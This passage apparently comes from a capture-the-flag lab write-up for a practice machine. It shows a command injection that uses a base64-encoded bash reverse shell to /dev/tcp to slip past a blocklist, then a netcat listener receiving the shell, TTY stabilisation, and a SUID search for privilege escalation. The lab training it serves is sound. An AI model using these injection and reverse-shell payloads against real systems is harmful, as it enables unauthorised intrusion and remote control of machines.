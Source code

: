 ```
```

some commands are blocked, let's try encode our payload in base64 to bypass restrictions.

reverse shell `sh -i >& /dev/tcp/192.168.49.95/1337 0>&1`

encoded payload

![image](https://user-images.githubusercontent.com/87468669/195770516-02254b69-699a-4351-b628-f736e9c702e0.png)

reverse shell payload 

```
127.0.0.1 | echo c2ggLWkgPiYgL2Rldi90Y3AvMTkyLjE2OC40OS45NS8xMzM3IDA+JjE= | base64 -d | bash
```

ncat listener ready

![image](https://user-images.githubusercontent.com/87468669/195769640-b4f23cb7-33cc-46c4-8f8e-c7a3b0ccb15a.png)

inject our payload 

![image](https://user-images.githubusercontent.com/87468669/195770811-468cd858-27ce-474c-aa7c-b8bcc945482e.png)

check oue ncat listener we got a shell

![image](https://user-images.githubusercontent.com/87468669/195770955-cc4f1193-782c-4944-a399-15995cac6f2c.png)

Let's stabilize the shell

```
┌──(n16hth4wk㉿n16hthawk-sec)-[~/Documents/PG/Noname]
└─$ nc -lnvp 1337                                      
listening on [any] 1337 ...
connect to [192.168.49.95] from (UNKNOWN) [192.168.95.15] 37608
sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@haclabs:/var/www/html$ ^Z
zsh: suspended  nc -lnvp 1337
                                                                                                                                                                      
┌──(n16hth4wk㉿n16hthawk-sec)-[~/Documents/PG/Noname]
└─$ stty raw -echo;fg                
[1]  + continued  nc -lnvp 1337
                               export TERM=xterm
www-data@haclabs:/var/www/html$ 
www-data@haclabs:/var/www/html$ 

```

![image](https://user-images.githubusercontent.com/87468669/195771191-58aca499-91c7-4897-8372-5e03e2cb908f.png)

We have a stable shell, let's escalate privs to root. First let's check for suid using command `find / -perm -u=s -type f 2>/dev/null`

```
www-data@haclabs:/var/www/html$ find / -perm -u=s -type f 2>/dev/null                                                                                                 
/usr/lib/snapd/snap-confine                                                                                                                                 
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper 
/usr/lib/policykit-1/polkit-agent-helper-1 
/usr/sbin/pppd                  
/usr/bin/pkexec 
/usr/bin/find 
/usr/bin/gpasswd 
/usr/bin/chfn
/usr/bin/chsh 
```